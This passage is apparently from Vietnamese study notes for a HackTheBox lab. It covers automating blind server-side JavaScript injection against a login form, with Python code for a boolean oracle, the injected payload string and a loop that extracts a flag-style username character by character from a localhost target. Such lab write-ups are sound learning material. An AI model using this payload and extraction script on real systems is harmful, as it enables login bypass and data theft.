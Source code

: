    ```python
               break

   print("Extracted username:", username)
   ```

---
# 8. Tự động hóa Server-Side JavaScript Injection với Blind Injection

1. **Mục tiêu**:
   - Đoạn script sẽ giúp tự động trích xuất `username` của một người dùng từ ứng dụng MangoOnline thông qua phương pháp **Server-Side JavaScript Injection (SSJI)** dạng blind. Đầu tiên, sử dụng tìm kiếm tuyến tính để dò từng ký tự, sau đó tối ưu hóa bằng **tìm kiếm nhị phân**.

2. **Xây dựng hàm `oracle`**:
   - Hàm `oracle()` gửi yêu cầu `POST` tới server và kiểm tra xem người dùng đã đăng nhập thành công chưa.
   - Nếu thành công, hàm trả về `True`; nếu không, trả về `False`.
   
   **Code mẫu cho hàm `oracle`**:
   ```python
   import requests
   from urllib.parse import quote_plus

   # Hàm oracle trả về True hoặc False
   num_req = 0
   def oracle(r):
       global num_req
       num_req += 1
       response = requests.post(
           "http://127.0.0.1/index.php",
           headers={"Content-Type": "application/x-www-form-urlencoded"},
           data="username=%s&password=x" % (quote_plus('" || (' + r + ') || ""==""'))
       )
       return "Logged in as" in response.text
   ```

3. **Kiểm tra hàm `oracle`**:
   - Kiểm tra hàm `oracle` hoạt động đúng với các truy vấn đã biết:
     ```python
     assert (oracle('false') == False)  # Kiểm tra với biểu thức sai
     assert (oracle('true') == True)    # Kiểm tra với biểu thức đúng
     ```

4. **Trích xuất `username` bằng tìm kiếm tuyến tính**:
   - Dò từng ký tự của `username` từ vị trí thứ 5 (`HTB{?}`), lặp qua tất cả các ký tự ASCII từ `32` đến `126` cho đến khi tìm thấy ký tự kết thúc `}`.
   
   **Code cho tìm kiếm tuyến tính**:
   ```python
   # Tìm kiếm tuyến tính
   num_req = 0
   username = "HTB{"  # Phần đầu đã biết
   i = 4  # Bắt đầu từ ký tự thứ 5

   while username[-1] != "}":  # Lặp cho đến khi tìm thấy ký tự kết thúc
       for c in range(32, 127):  # Lặp qua các ký tự ASCII có thể in
           if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) == %d' % (i, c)):
               username += chr(c)
               break
       i += 1

   print("Username:", username)
   print("Requests:", num_req)
   ```
